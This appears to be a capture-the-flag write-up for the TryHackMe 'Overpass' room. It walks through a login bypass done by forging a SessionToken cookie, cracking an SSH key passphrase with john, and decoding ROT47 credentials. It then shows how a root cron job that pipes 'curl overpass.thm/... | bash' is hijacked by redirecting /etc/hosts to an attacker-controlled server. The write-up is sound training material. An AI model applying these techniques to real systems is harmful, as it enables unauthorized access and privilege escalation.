



# Overpass WriteUp https://tryhackme.com/room/overpass by g0at

## 1.Scanning with nmap for open ports and services


* * * 
we see that port 80 is open


we go to the downloads page and find the source code to the password manager, which is written in Go and a build script


I couldn't find anything useful in it, so we'll leave it for now

## 2.Brute forcing directories

We're gonna find some directories with [dirsearch](https://github.com/maurosoria/dirsearch)

`python3 dirsearch.py -u http://10.10.210.84/ -e html,js,php`



we navigate to `/admin/?/login`


trying to log in with weak credentials, such as `admin:admin`, failed


after some messing around, I finally notice some stuff in `login.js`



there is a function for data encoding and making the POST request, but the one we're interested in is this:

```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}

```

especially these last few lines:
```js
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```

so, when we try to log in with wrong credentials,the response we get is `"Incorrect credentials"`, so nothing happens  
but if we get the right credentials, it sets the `SessionToken` cookie to the value `statusOrCookie` and points us to `/admin`  

What is we try to manually set the cookie to some status value?  
```js
Cookies.set("SessionToken",400)
```
With the cookie set, we navigate to the `/admin` page  


and as you can see, we get a RSA private key

## 3. SSHing into the machine

We save the key to `id_rsa`, now it's time to find the passphrase  
First, we use `ssh2john.py`, which you can download from github to generate the hash, and we save it to `id_rsa.hashes`  


Then we use john for cracking the passphrase  


We login using the key as `james`  


Then we get the flag


* * * 
## 3.Escalating our privileges

First thing we notice is a `todo.txt` with the following content.  
```
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

We get some interesting information from this:  
* There is some kind of password in the password manager they wrote
* The encryption is weak
* There is some kind of automated build script running

Ok, remember the source code we got from the first step? There is some interesting stuff in it:  
```go
func main() {
	credsPath, err := homedir.Expand("~/.overpass")
	if err != nil {
		fmt.Println("Error finding home path:", err.Error())
	}
	//Load credentials
    passlist, status := loadCredsFromFile(credsPath)
    ...
```
The credentials are stored in `~/.overpass`  


There is another interesting function in the source code: 
```go
func rot47(input string) string {
	var result []string
	for i := range input[:len(input)] {
		j := int(input[i])
		if (j >= 33) && (j <= 126) {
			result = append(result, string(rune(33+((j+14)%94))))
		} else {
			result = append(result, string(input[i]))
		}
	}
	return strings.Join(result, "")
}
```  
So it seems they use `ROT47`, we use [CyberChef](https://gchq.github.io/CyberChef/) to decrypt it  

* * *
Moving on, we try to find the automate build script, so we look in `/etc` for cron jobs and we find one: 



It seems like is runs the same script we found on the `/downloads` page as **root**.  
It also runs every minute.  
```bash
GOOS=linux /usr/local/go/bin/go build -o ~/builds/overpassLinux ~/src/overpass.go
GOOS=windows /usr/local/go/bin/go build -o ~/builds/overpassWindows.exe ~/src/overpass.go
GOOS=darwin /usr/local/go/bin/go build -o ~/builds/overpassMacOS ~/src/overpass.go
GOOS=freebsd /usr/local/go/bin/go build -o ~/builds/overpassFreeBSD ~/src/overpass.go
GOOS=openbsd /usr/local/go/bin/go build -o ~/builds/overpassOpenBSD ~/src/overpass.go
echo "$(date -R) Builds completed" >> /root/buildStatus
```

Notice in the cron job that is makes a get request with **curl** to `overpass.thm/downloads/src/buildscript.sh`

* * * 

Let's check the `/etc/hosts` file  


Nice! It seems that we have write permission  
Let's change the ip of `overpass.thm` to our VPN ip
(you can find it using `ip a`, or from the acces page on tryhackme)  

We open `/etc/hosts` using **vim** and we write out ip address


* * *

Alright, since the cron job requests from `curl overpass.thm/downloads/src/buildscript.sh | bash` we have to make directory and write our build script with the following content:
```bash
cat /root/root.txt > /home/james/stuff.txt
```


Starting our simple web server:


And we get the flag  

